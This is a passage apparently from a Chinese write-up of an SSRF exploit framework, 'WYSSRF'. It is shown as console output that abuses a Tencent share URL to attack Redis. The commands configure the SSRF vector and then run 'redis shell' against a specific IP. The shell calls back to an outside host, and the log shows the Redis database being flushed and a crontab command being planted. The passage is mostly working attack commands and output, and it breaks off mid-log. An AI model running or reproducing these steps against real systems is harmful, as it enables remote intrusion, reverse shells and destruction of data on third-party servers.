   
`reinhard$ python wyssrf.py config -u 'http://share.v.t.qq.com/index.php?c=share&a=pageinfo&url=http://wuyun.org' -p url`
  

  
[INFO] config file save success...
  

  
### 3.1 针对redis进行漏洞利用
  

  

  
根据上面的原理做成利用脚本
  

  
`reinhard$ python wyssrf.py -i`
  
Welcome to WYSSRF Exploit FrameWork (type help for a list of commands.)
  

  
console> show config
  
```
  
{
  
    "url": "http://share.v.t.qq.com/index.php?c=share&a=pageinfo&url=http://wuyun.org", 
  
    "method": "GET", 
  
    "param": "url"
  
}
  
```
  
console> redis -h
  
Usage:
  

  
    redis shell <host> <port> <bhost> <bport> [--type=<TYPE>]
  

  
    redis ssh <host> <port> <keyfile> [--type=<TYPE>]
  

  

  
Options:
  

  
    -t, --type=<TYPE>     request protocol type [default: dict]
  

  
console> redis shell 42.62.67.198 6379 fuzz.wuyun.org 8080 --type dict
  
```
  
[INFO] Exploit 42.62.67.198 6379 Start...
  

  
[INFO] #1 flush redis db
  

  
[INFO] #2 set crontab command
  

```